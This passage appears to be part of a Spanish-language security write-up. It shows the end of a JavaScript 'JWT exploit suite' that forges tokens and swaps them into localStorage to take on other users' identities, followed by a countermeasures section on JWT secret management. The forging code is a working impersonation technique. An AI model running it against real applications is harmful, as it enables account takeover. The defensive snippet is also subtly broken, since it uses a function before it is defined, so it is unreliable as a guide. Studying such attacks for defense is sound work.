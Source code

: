 ```javascript
      return {
        user: userData,
        token: api.createFakeToken(userData)
      };
    });
    
    console.log("🎭 TOKENS FORJADOS CREADOS:");
    console.table(forgedTokens);
    
    // Guardar para uso posterior
    (window as any).forgedTokens = forgedTokens;
    
    return forgedTokens;
  },
  
  // Rotar entre tokens forjados
  switchToFakeToken: (index = 0) => {
    const forgedTokens = (window as any).forgedTokens;
    if (!forgedTokens || !forgedTokens[index]) {
      console.log("❌ Token forjado no disponible. Ejecuta createMultipleFakeTokens() primero.");
      return;
    }
    
    const selectedToken = forgedTokens[index];
    localStorage.setItem('token', selectedToken.token);
    localStorage.setItem('user', JSON.stringify(selectedToken.user));
    
    console.log(`🔄 Cambiado a identidad forjada: ${selectedToken.user.username}`);
    console.log("🔄 Recarga la página para usar la nueva identidad.");
  }
};

// Ejecutar suite completo
console.log("🚨 INICIANDO JWT EXPLOIT SUITE");
jwtExploitSuite.analyzeCurrentToken();
jwtExploitSuite.createMultipleFakeTokens();

// Para usar: jwtExploitSuite.switchToFakeToken(0);
```

### 🛡️ **Contramedidas**

#### **1. Gestión Segura de Secretos**
```javascript
// Configuración segura de JWT
const JWT_CONFIG = {
  secret: process.env.JWT_SECRET || generateRandomSecret(),
  algorithm: 'HS256',
  accessTokenExpiry: '15m',
  refreshTokenExpiry: '7d'
};

// Generar secret aleatoria si no está en entorno
const generateRandomSecret = () => {
  if (typeof crypto !== 'undefined' && crypto.getRandomValues) {
    const array = new Uint8Array(32);
    crypto.getRandomValues(array);
    return Array.from(array, byte => byte.toString(16).padStart(2, '0')).join('');
  }
  throw new Error('No secure random generator available');
};

// ✅ NUNCA exponer secret en respuestas
```